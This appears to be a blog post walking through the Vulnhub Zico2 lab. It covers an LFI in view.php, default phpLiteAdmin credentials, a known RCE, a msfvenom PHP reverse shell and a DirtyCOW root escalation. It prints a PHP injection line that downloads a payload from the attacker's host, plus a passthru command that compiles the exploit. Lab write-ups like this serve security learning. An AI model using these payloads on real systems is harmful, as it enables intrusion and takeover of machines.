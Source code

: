 ```yaml
---
layout: post
title: Vulnhub Zico 2
---
```

In this week, I´ve done another vulnhub machine, in this case [Zico2](https://www.vulnhub.com/entry/zico2-1,210/). In my opinion, it was easier than previous machines, both intrusion and privilege escalation steps. As it´s shown below, the host has two main services running, a SSH service and a web application:

![evidence1]({{ site.baseurl }}/images/zico2_01.png)

Analyzing the web application, a LFI vulnerability could be found in "page" HTTP GET parameter of "view.php":

![evidence2]({{ site.baseurl }}/images/zico2_02.png)

This vulnerability along with default credentials on phpLiteAdmin service (located in the web application in "http://192.168.10.17/dbadmin/") and a [RCE vulnerability in 1.9.3 version of that DBMS](https://www.exploit-db.com/exploits/24044/), could allow us inject and execute PHP code on remote host. Inside of the DBMS, you can find other database called "test_users" with MD5 hashes of "root" and "zico" users (however, once it was decrypted with online resources such us crackstation.net, these credentials were not valid). 
First of all, I created a PHP payload with msfvenom. Due to a problems with meterpreter payload, I used a more simple PHP shell payload, "php/reverse_php":

![evidence3]({{ site.baseurl }}/images/zico2_03.png)

Once it was done, I needed to upload the exploit. To do this, first of all I created a new database, called "hack.php", with only one table and one field. The PHP injection is executed in the default value of the field, that in our case was the next one:

```
<?php function dl($u, $o){$c = file_get_contents($u);file_put_contents($o, $c);}dl("http://192.168.10.12/zico.txt", realpath(realpath(dirname(__FILE__))) . "/zico.php")?>
```
![evidence4]({{ site.baseurl }}/images/zico2_04.png)

For this phase, I tried to use other techniques to upload the file, for example, using the PHP function ["passthru"](http://www.hackingwithphp.com/4/12/0/executing-external-programs) and operative systems commands such "nc" or "wget" but it didn´t work fine. It was strange because using passthru is possible to execute other commands (such "find", "cat" and so on). Anyway, the exploit was correctly uploaded in "/usr/databases" folder, the next step was configuring the handler of metasploit to serve the reverse connection, and the execution through LFI vulnerability of the PHP reverse exploit:

![evidence5]({{ site.baseurl }}/images/zico2_05.png)

Got a more stable shell was impossible, I don't know the reason, so I needed to use the RCE vulnerability again in order to upload DirtyCOW exploit and to compile it. 
```
<?php passthru("gcc -pthread /usr/databases/dirty.c -o /usr/databases/dirty -lcrypt"); ?>
```
Finally, executing the binary was enough to got a user ("firefart") with root privileges:

![evidence6]({{ site.baseurl }}/images/zico2_08.png)

![evidence7]({{ site.baseurl }}/images/zico2_09.png)
